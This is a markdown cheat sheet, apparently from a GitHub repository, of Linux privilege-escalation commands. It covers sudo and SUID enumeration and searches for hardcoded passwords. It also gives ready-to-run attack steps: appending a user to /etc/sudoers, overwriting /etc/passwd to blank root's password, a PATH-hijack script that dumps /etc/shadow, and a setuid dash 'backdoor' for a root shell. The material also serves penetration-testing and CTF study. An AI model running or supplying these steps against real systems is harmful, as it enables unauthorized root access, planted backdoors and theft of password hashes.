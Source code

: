 # GTFO Bins:
GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.
```
https://gtfobins.github.io/
```

# Commands:
check to see what sudo privledges the user has
```
sudo -l
cat /etc/sudoers
```

# other Super Users?:
```
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 {print $1}'
```

# lists available exploits Linux kernel in kali Linux
```
searchsploit Linux Kernel 2.6.24 
```


# Grep hardcoded passwords:
### Use grep to look for user in filename
```
grep -i user [filename]
```
### Use grep to look for pass in filename
```
grep -i pass [filename]
```
### Use grep to look for password in filename
```
grep -C 5 "password" [filename]
```
### find php file and check them for the variable $password
```
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```



# root access:
## list all programs this account has sudo access to
```
sudo -l
```

## find all files with SUID & SGID set
```
find . -perm /2000 
find / -perm -4000 -o -perm -2000
find / -perm -u=s -type f 2>/dev/null
find / -perm /6000
find / -perm /6001   
```

## services which are running as root
```
ps -aux | grep root
```

## check if web server runs as root
```
grep "localhost" ./ -R
```

# Add username to sudoers in python.
```
#!/usr/bin/env python

import os
import sys
try:
        os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

# Use Python to run script in zip file:
```
mkdir test
echo 'print("Hello World!!") > test/__main__.py
zip -j test.zip test/*
python test.zip
```



## cronjob
If there is a cronjob that runs as root but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

## list processes running by root, permissions and NFS exports
```
echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null
```

# if you have write permissions for /etc/passwd 
back up current/etc/passwd
```
cp /etc/passwd /etc/passwd.bak
```
overwrite /etc/passwd to gain root access
```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```


# ltrace
ltrace to find were a program makes system calls:
find a program with Setuid used
```
find /usr/bin -perm -4000
```
find a program that runs with root priveledges
```
ls -l </path/to/program>
```
try program to see what it requires, maybe try a --help flag. use ltrace to check to see if it calls another script or program that we have access to
```
ltrace </path/to/program> <required options to run>
```
look for system calls where the program is not a specific path for example if it calls grep without specifying a path if so create a script to run:

##Grab Hash script:
```
#!/bin/dash
cat /etc/shadow
```
## **note Bash likes to drop setuid permissions but Dash will not**
make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
```
run the program that has root priveledges and it should call your script and give you the output


# auto-root script
```
nano grep 
#!/bin/dash
cp /bin/dash backdoor
chown root:root backdoor
chmod u+s backdoor
```
make executable 
```
chmod 755 grep
```
change PATH so it check your folder first when the program is run
```
export PATH=.:$PATH
```
run the program backdoor
```
./backdoor 
whoami
id
```
you now have a root shell in dash

